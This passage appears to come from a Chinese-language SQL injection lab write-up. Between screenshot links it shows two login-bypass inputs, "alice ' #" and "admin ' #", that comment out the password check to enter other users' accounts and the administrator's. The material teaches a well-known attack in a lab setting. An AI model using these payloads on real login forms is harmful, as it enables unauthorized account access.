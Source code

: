 ![image-20220325152240801](SQLInjection/image-20220325152240801.png)

用同样方法就能登录其他用户的账号。

```sql
alice ' #
```

![image-20220325152333270](SQLInjection/image-20220325152333270.png)

甚至是管理员

```sql
admin ' #
```

![image-20220325152458805](SQLInjection/image-20220325152458805.png)
